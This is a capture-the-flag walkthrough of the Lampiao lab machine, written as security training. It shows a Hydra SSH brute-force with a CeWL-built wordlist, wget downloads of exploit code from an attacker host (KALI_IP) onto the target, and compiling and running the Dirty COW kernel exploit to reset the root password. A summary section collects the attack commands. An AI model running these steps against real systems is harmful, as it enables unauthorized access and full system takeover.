

# Lampiao - Proving Grounds Practice

> **Kill Chain Summary**: Nmap Discovery of Drupal 7 (Port 1898) -> Extracting Authors (tiago) -> Generating Custom Wordlist via CeWL -> Hydra SSH Brute-Force (tiago:Virgulino) -> Foothold via SSH -> Kernel Enumeration identifies vulnerable Linux 4.4.0-31 -> Compiling Dirty COW (40847.cpp) on target -> Root Shell.

| Property | Value |
|---|---|
| **Target Name** | Lampiao |
| **Platform** | Proving Grounds Practice |
| **OS** | Linux (Ubuntu 14.04, Kernel 4.4.0-31 i686) |
| **Difficulty** | Easy |
| **Status** | Rooted |
| **Key Techniques** | Drupal 7 CMS Fingerprinting, Contextual Wordlist Generation (CeWL), SSH Password Spraying (Hydra), Linux Exploit Suggester, Kernel Exploitation (Dirty COW / CVE-2016-5195) |

---

## 1. Reconnaissance and Enumeration

### 1.1 Port Scanning (Nmap)

We execute an initial full TCP scan:

```bash
sudo nmap -sC -sV -p- -T4 -oA nmap/full_tcp $IP
```

**Open Ports Summary:**

| Port | Service | Version | Description and Observations |
|---|---|---|---|
| **22/tcp** | SSH | OpenSSH 6.6.1p1 | Target for authenticated shell access |
| **80/tcp** | HTTP | Apache | ASCII art banner page with no interactive features |
| **1898/tcp** | HTTP | Apache 2.4.7 | Drupal 7 CMS: Contains active blog posts and robots.txt |

Port 1898 fingerprints as Drupal 7 via the `http-generator` meta-tag identified in Nmap default scripts.

---

### 1.2 Web Enumeration: Drupal 7 (Port 1898)

Navigating to `http://$IP:1898/` presents a blog site centered around Brazilian culture and folklore:



#### Key Discoveries:
1. **Active Users / Authors:** The blog posts are authored by two usernames:
   - `tiago`
   - `Eder`
2. **URL Routing:** Articles follow standard Drupal node structures (e.g., `?q=node/1`).
3. **Directory Fuzzing (gobuster):**
   ```bash
   gobuster dir -u http://$IP:1898/ -w /usr/share/wordlists/dirb/common.txt
   ```
   Standard Drupal directories (`/includes/`, `/misc/`, `/modules/`, `/sites/`, `/themes/`) are confirmed.

#### Searchsploit and Vulnerability Assessment
Searching for published Drupal exploits:

```bash
searchsploit Drupal
```

| Exploit Title | Exploit-DB ID | Pre-requisites and Applicability |
|---|---|---|
| Drupal 7.x Module Services - RCE | php/webapps/41564.php | Requires REST endpoint and Services module enabled |
| Drupalgeddon (SQLi) 7.0 < 7.31 | php/webapps/34992.py | Requires specific vulnerable database driver |
| Drupalgeddon2 (CVE-2018-7600) | php/webapps/44449.rb | Evaluated against forms API |

> Note on initial attempts: Testing `41564.php` (Services Module RCE) failed because the target did not have the REST/Services module configured or enabled. Always verify exploit prerequisites before investing extensive time into complex web RCEs.

---

## 2. Initial Access

### 2.1 Targeted Wordlist Generation (CeWL)

Since the website features domain-specific language and names, standard password dictionaries (`rockyou.txt`) might miss culturally specific passwords. We generate a custom wordlist directly from the blog content using CeWL:

```bash
cewl http://$IP:1898/?q=node/1 -w pass.txt
```

Verify wordlist size and preview entries:
```bash
head -n 10 pass.txt
wc -l pass.txt
```

---

### 2.2 SSH Credential Brute-Force (Hydra)

We compile our target users into `users.txt` (`tiago`, `Eder`) and run Hydra against SSH using our custom wordlist:

```bash
hydra -L users.txt -P pass.txt -e nsr -f -t 4 ssh://$IP
```

**Flags Breakdown:**
- `-L users.txt`: Usernames extracted from the blog.
- `-P pass.txt`: CeWL-generated dictionary.
- `-e nsr`: Additional checks (null password, same as username, reversed username).
- `-f`: Exit immediately upon finding the first valid credential set.
- `-t 4`: Safe concurrency rate for SSH daemon limits.

**Result:**
```text
[22][ssh] host: 192.168.x.x   login: tiago   password: Virgulino
1 of 1 target completed, 1 valid password found
```

Recovered credentials: `tiago:Virgulino`

---

### 2.3 SSH Foothold and User Flag

Connecting via SSH:

```bash
ssh tiago@$IP
# Password: Virgulino

tiago@lampiao:~$ id
uid=1000(tiago) gid=1000(tiago) groups=1000(tiago)

tiago@lampiao:~$ cat local.txt
[FLAG REDACTED]
```

---

## 3. Privilege Escalation

### 3.1 Kernel Enumeration

Checking the OS and kernel release:

```bash
tiago@lampiao:~$ uname -a
Linux lampiao 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux

tiago@lampiao:~$ cat /etc/issue
Ubuntu 14.04.5 LTS \n \l
```

The system runs an outdated Ubuntu 14.04 LTS release with an unpatched Linux 4.4.0-31 i686 kernel.

---

### 3.2 Automated Analysis (Linux Exploit Suggester)

We transfer and execute `linux-exploit-suggester.sh`:

```bash
# On Kali:
python3 -m http.server 80

# On Target:
wget http://KALI_IP/linux-exploit-suggester.sh -O les.sh
chmod +x les.sh
./les.sh
```

**Key Findings:**
```text
[+] [CVE-2016-5195] dirtycow
   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04
   Download URL: https://www.exploit-db.com/download/40847
```

Dirty COW (CVE-2016-5195) is marked as highly probable for Ubuntu 14.04.

---

### 3.3 Exploiting Dirty COW (CVE-2016-5195)

We utilize the `40847.cpp` implementation (a reliable Dirty COW variant that creates a new root user or prompts to overwrite the root password):

1. Download the exploit on Kali:
   ```bash
   wget https://www.exploit-db.com/download/40847 -O 40847.cpp
   ```

2. Transfer `40847.cpp` to the target machine `/tmp` folder:
   ```bash
   wget http://KALI_IP/40847.cpp -O /tmp/40847.cpp
   ```

3. Compile using `g++` directly on the target machine:
   ```bash
   cd /tmp
   g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dirtycow 40847.cpp -lutil
   ```

4. Execute the exploit binary:
   ```bash
   ./dirtycow
   ```

**Execution Output:**
```text
Running ...
Received su prompt (Password: )
Root password is:   dirtyCowFun
Enjoy! :-)
```

### 3.4 Root Access and Proof Flag

Elevate to root using the newly configured root password:

```bash
tiago@lampiao:/tmp$ su
Password: dirtyCowFun

root@lampiao:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

root@lampiao:/tmp# cat /root/proof.txt
[FLAG REDACTED]
```

---

## 4. Useful Commands Summary

```bash
# Generate targeted wordlist from web page content
cewl http://[TARGET_IP]:[PORT]/[PAGE] -w pass.txt

# Hydra SSH brute-force with custom user and password lists
hydra -L users.txt -P pass.txt -e nsr -f -t 4 ssh://[TARGET_IP]

# Run Linux Exploit Suggester
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh && chmod +x les.sh && ./les.sh

# Compile Dirty COW (40847.cpp)
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dirtycow 40847.cpp -lutil && ./dirtycow
```

---

## 5. Key Takeaways and Lessons Learned

1. **Contextual Wordlists:** When default credentials and standard wordlists (`rockyou.txt`) fail against user accounts harvested from web portals, generating a custom wordlist with `cewl` based on page contents is often the intended attack vector.
2. **Backgrounding Brute-Force Tasks:** As soon as usernames and a contextual wordlist are identified, launch Hydra in the background so authentication attempts run concurrently while continuing manual web inspection.
3. **Exploit Prerequisites Check:** Before executing complex CMS exploits (such as Drupal module RCEs), verify that the target actually exposes the vulnerable endpoint or plugin.
4. **Targeted Kernel Exploitation:** When operating against legacy operating systems (Ubuntu 14.04), kernel exploits like Dirty COW are viable. Always match kernel architecture (`i686` vs `x86_64`) and kernel series before compiling.

---

### Tags
#linux #drupal #cewl #hydra #ssh-bruteforce #kernel-exploit #dirty-cow #cve-2016-5195 #easy #pg-practice #rooted
